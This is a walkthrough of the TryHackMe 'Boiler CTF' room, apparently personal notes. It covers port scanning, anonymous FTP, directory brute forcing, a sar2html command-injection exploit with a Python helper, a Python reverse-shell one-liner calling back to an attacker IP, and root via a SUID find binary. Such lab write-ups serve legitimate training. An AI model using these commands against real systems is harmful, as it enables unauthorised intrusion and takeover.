

# Boiler CTF (THM)

- https://tryhackme.com/room/boilerctf2
- March 21, 2023
- medium

---

## Enumeration

### Nmap

- need to scan all ports

```
PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
10000/tcp open  http    syn-ack MiniServ 1.930 (Webmin httpd)
55007/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

### FTP

- anonymous login allowed
- enter ftp with anonymous and check the contents with `ls -la` 
- found `.info.txt` and contents are

```
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```
- it is just rot13
- `Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`


### HTTP

- default Apache page
- directory brute forcing with ffuf

```
index.html   
joomla       
manual       
robots.txt   
```

- manual 



- joomla 


- directory brute forcing at `/joomla`

```
_archive       
_database      
_files         
_test          
administrator  
bin            
build          
cache          
components     
images         
includes       
installation   
index.php      
language       
layouts        
libraries      
media          
modules        
plugins        
templates      
tests          
tmp            
~www           
```

- robots.txt

```
/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it
079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
- tried to crack last ascii values
- at this time directory brute force the `/joomla`

- `/joomla/_files`


- double decode base64 -> Whopsie daisy 
- don't know where to use

- `/joomla/_test`


- sar2html has an RCE exploit


- download and read the txt file
- it is said get request to `baseurl/index.php?plot=;<command-here>` and in drop down menu of select host, result of command appear as last choice


- wrote some python scripts to make command execution easier

```python
import requests
from bs4 import BeautifulSoup

url = "http://10.10.253.57/joomla/_test/index.php?plot=;"

while True:
    cmd = input('>> Enter command: ')
    r = requests.get(url + cmd)

    soup = BeautifulSoup(r.text, features='lxml')
    for option in soup.find_all('option'):
        print(option.text)
```


## User Access

- check whether python exists and get reverse shell with python

```sh
export RHOST="10.11.8.57";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```


- found log file and in log file, may be ssh credentials


- enter with basterd user superduperp@$$

## Root Access

- find suid values and found find command 

```
basterd@Vulnerable:/tmp$ find / -perm -4000 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/apache2/suexec-custom
/usr/lib/apache2/suexec-pristine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
...
```
- from gtfobins, 

```
basterd@Vulnerable:/tmp$ find . -exec /bin/sh -p \; -quit
```
- get root access

---
